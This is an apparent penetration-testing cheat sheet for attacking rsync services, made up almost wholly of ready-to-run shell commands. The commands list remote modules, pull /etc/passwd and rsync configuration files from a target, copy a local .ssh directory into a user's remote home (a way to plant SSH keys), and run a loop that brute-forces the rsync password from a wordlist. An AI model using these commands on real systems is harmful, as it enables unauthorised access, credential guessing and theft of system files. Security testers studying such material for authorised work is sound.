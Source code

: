 ```yaml
---
title: "rsync"
date: 2024-7-12
tags: ["Rsync", "Password Cracking", "Enumeration"]
---
```


### Basic Commands

```console
# List directory ('/')
rsync --list-only -a rsync://<TARGET>/
```

```console
# List directory ('/') with ipv6
rsync --list-only -a rsync://[<TARGET_IPV6>]:8730/
```

```console
# List a file
rsync --list-only -a rsync://<TARGET>/etc/passwd
```

```console
# List files (wildcard)
rsync --list-only -a rsync://<TARGET>/etc/rsync*
```

```console
# Get a file
rsync -a rsync://<TARGET>/etc/passwd .
```

```console
# Get files (wildcard)
rsync -a rsync://<TARGET>/etc/rsync* .
```

```console
# Copy files recusively to remote (With Creds)
export RSYNC_PASSWORD='<PASSWORD>'; rsync -aR .ssh/ rsync://<USER>@<TARGET>/home_user/
```

---

### Bruteforce rsync password

```console
# Get user from /etc/passwd, Get module from /etc/rsyncrsyncd.conf (e.g. user user and module home_user)
cat passwords.txt | while read password; do export RSYNC_PASSWORD=${password}; rsync --list-only rsync://user@<TARGET>/home_user 2>&1 | grep -q "auth failed on module home_user" || { echo "[+] Found: ${RSYNC_PASSWORD}"; break; } done
```
